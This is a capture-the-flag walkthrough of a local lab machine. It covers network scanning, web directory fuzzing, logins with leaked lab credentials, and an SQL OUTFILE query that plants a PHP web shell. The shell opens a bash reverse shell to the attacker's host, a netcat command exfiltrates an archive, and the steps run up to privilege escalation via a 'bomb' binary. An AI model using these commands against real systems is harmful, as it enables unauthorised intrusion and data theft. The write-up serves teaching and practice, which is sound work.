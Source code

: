 ## Enumeration

### ping sweep

```
$ nmap -sn -o nmap/ping-sweep.txt 192.168.0.0/24
...
Nmap scan report for 192.168.0.6
Host is up (0.00068s latency).
...
```

### nmap scan


```
$ nmap -sV -oN nmap/sv.txt 10.0.0.5
...
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
...
```

### port 80

http://192.168.0.6/

![](assets/00.png)

### port 443

https://192.168.0.6/

![](assets/01.png)

Directory fuzzing

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
cgi-bin/                [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 6ms]
forum                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 1ms]
phpmyadmin              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 2ms]
server-status           [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 0ms]
webmail                 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 1ms]
...
```

**https://192.168.0.6/forum/**

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
modules                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 5ms]
templates_c             [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
themes                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
update                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
...
```

Users at https://192.168.0.6/forum/index.php?mode=user

![](assets/02.png)

Password at https://192.168.0.6/forum/index.php?id=6

![](assets/03.png)

Logged in using `lmezard:!q\]Ej?*5K5cy*AJ`

Email address at https://192.168.0.6/forum/index.php?mode=user&action=edit_profile

![](assets/04.png)

**https://192.168.0.6/webmail/**

Logged in using `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ`

Database credentials at an email

![](assets/05.png)

**https://192.168.0.6/phpmyadmin/**

Logged in using `root:Fg-'kKXBj87E:aJ$`

![](assets/06.png)

Write php file on `/var/www/forum/templates_c/` using this sql query

```
SELECT '<?php phpinfo();?>' INTO OUTFILE '/var/www/forum/templates_c/info.php'
```

![](assets/07.png)

Browsed to https://192.168.0.6/forum/templates_c/info.php

![](assets/08.png)

## Initial access

Create a php script to get a reverse shell

```
SELECT '<?php system("bash -c \'bash -i >& /dev/tcp/192.168.0.5/9000 0>&1\'");?>' INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```

Started a listener

```
$ nc -lnp 9000
```

Browsed to https://192.168.0.6/forum/templates_c/shell.php and got a shell

![](assets/09.png)

Logged in as `www-data`

Stabilize our shell

```
target$ python -c 'import pty; pty.spawn("/bin/bash")'
target$ Ctrl+Z
attack$ stty -a
speed 38400 baud; rows 53; columns 237; line = 0;
...
attack$ stty raw -echo; fg
target$ export TERM=xterm
target$ stty rows 53 columns 237
```

## Privilege escalation

**www-data -> lmezard**

credentials were found at `/home/LOOKATME/password`: `lmezard:G!@M6f4Eatau{sF"`

![](assets/10.png)

```
$ su lmezard
Password: G!@M6f4Eatau{sF"
```

![](assets/11.png)

**lmezard -> laurie**

Exfiltrated tar archive `fun` to our machine and extracted it

```
attack$ nc -lnp 9000 > loot/fun
target$ cat fun | nc 192.168.0.5 9000
attack$ tar xf fun
```
The extracted folder `ft_fun` contained a lot of files with the extension `pcap`, one of these files contained the following `main()`

```c
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```

Extracted the password for `laurie` using this script

```bash
#!/bin/bash

for i in `seq 1 3`
do
        for f in `ls loot/ft_fun/*.pcap`
        do
                cat $f
                echo " $f"
        done | egrep "file[0-9]{$i}\s" | sort | cut -d ' ' -f2 | xargs cat | egrep -o 'return.*'
done | cut -d "'" -f 2 | tr -d '\n' | sha256sum
```

Logged in as `laurie` using SSH with the password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

**laurie -> thor**

reversing `bomb`

```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9  
o0ekma
1 2 3 4 5 6
```  
